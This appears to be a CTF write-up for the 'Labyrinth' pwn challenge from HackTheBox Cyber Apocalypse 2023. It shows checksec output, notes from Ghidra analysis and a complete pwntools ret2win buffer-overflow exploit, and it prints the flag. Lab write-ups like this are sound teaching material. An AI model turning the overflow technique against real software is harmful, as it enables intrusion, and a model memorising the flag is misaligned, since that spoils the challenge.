 ```yaml
---
name: Labyrinth (2023)
event: HackTheBox Cyber Apocalypse - Intergalactic Chase CTF 2023
category: Pwn
description: Writeup for Labyrinth (Pwn) - HackTheBox Cyber Apocalypse - Intergalactic Chase CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Labyrinth

## Description

> You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.

## Solution

Check file info and binary protections.

{% code overflow="wrap" %}
```bash
file labyrinth
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped
```
{% endcode %}

{% code overflow="wrap" %}
```bash
checksec --file labyrinth
[*] '/home/crystal/Desktop/htb/challenge/labyrinth'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```
{% endcode %}

Decompile in ghidra and find we must select door `69` followed by door `069`. However, providing `069` is enough to satisfy both conditions.

In ghidra, we can find our offset of `64` and a "win" function called `escape_plan` which prints the flag.

{% code overflow="wrap" %}
```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x401602
continue
'''.format(**locals())

# Binary filename
exe = './labyrinth'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Offset to RIP
offset = 64

# Start program
io = start()

ret = 0x401016

# Build the payload
payload = flat([
    b'C' * (offset - 8),
    ret,  # stack alignment
    elf.symbols.escape_plan
])

# Pass initial checks
io.sendlineafter(b'>', b'069')

# Send the payload
io.sendlineafter(b'>', payload)

# Got Flag?
io.recvuntil(b'journey:')
warn(io.recvlines(2)[1].decode())
```
{% endcode %}

Flag: `HTB{3sc4p3_fr0m_4b0v3}`
